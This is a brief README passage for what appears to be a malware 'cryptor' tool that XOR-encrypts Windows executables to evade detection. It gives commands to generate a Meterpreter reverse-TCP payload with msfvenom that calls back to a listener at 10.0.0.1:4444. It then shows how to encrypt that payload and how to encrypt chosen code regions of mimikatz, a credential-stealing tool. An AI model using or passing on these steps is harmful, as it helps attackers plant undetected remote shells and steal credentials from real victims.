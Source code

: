 Simple XOR with user supplied key.

## Automatic crypt

By default this tool try to encrypt everything besides of PE-structures.

`msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.0.0.1 LPORT=4444 EXITFUNC=thread -f exe -o meter.exe`

`./cryptor.py meter.exe`

Sometimes encrypted program may be corrupted. In this case it need to use manual encryption.

## Manual crypt

Here is we need to find malicious regions with code and data (with r2/hte/hiew32/etc).

`./cryptor.py mimikatz.exe --ranges 0x140001000,0xc0e00 0x140121000,0x6200 0x1400c33f0-0x140110e77 0x140128150,940`
